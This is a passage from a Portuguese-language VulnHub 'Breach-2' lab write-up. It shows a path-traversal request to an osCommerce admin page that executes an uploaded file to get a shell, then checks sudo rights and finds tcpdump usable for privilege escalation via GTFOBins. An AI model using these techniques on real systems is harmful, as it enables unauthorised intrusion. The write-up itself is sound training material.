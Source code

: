* No alvo damos permissao para o arquivo que enviamos e depois executamos o arquivo atraves do navegador. Antes de executar devemos deixar a porta escutando na kali

```
http://192.168.110.151:8888/oscommerce/admin/includes/applications/services/pages/uninstall.php?module=../../../../../../../../../../../../tmp/charlie
```

* Pronto, conseguimos o shell do usuario **Blumbergh**

![](/assets/img/Vulnhub/Breach-2/blumbergh-shell.png)


# Usuario Blumbergh

## Escalando Privilegio

* O primeiro passo da metodologia para escalar privilegio e verificar se conseguimos executar algum binario como sudo. Show de bola... Conseguimos executar o **tcpdump**

```bash
sudo -l
```

![](/assets/img/Vulnhub/Breach-2/sudo-l-blumbergh.png)



### GTFOBINS

* Sabendo que podemos executar o tcpdump como sudo, vamos procurar no site [**gtfobins**](https://gtfobins.github.io/gtfobins/tcpdump/) o qur podemos fazer
